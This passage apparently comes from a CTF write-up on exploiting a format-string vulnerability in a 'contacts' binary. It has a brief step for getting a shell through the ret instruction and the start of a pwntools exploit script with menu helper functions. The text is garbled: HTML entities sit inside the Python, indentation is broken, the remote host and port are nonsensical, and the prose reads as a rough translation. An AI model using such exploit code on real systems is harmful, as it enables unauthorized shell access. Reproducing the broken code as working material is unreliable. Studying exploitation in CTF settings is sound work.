 

#### Get the shell


At this time, after executing the format string function, exit to the upper function, we enter 5, exit the program will execute the ret instruction, you can get the shell.


#### Using the program


```python

from pwn import *

from LibcSearcher import *

contact = ELF('./contacts')

##context.log_level = 'debug'

if args['REMOTE']:

    sh = remote(11, 111)

else:

    sh = process('./contacts')





def createcontact(name, phone, descrip_len, description):

sh.recvuntil (&#39;&gt;&gt;&gt;&#39;)
    sh.sendline('1')

    sh.recvuntil('Contact info: \n')

    sh.recvuntil('Name: ')

    sh.sendline(name)

    sh.recvuntil('You have 10 numbers\n')

    sh.sendline(phone)

    sh.recvuntil('Length of description: ')

    sh.sendline(descrip_len)

    sh.recvuntil('description:\n\t\t')

    sh.sendline(description)





def printcontact():

sh.recvuntil (&#39;&gt;&gt;&gt;&#39;)
    sh.sendline('4')

    sh.recvuntil('Contacts:')
```
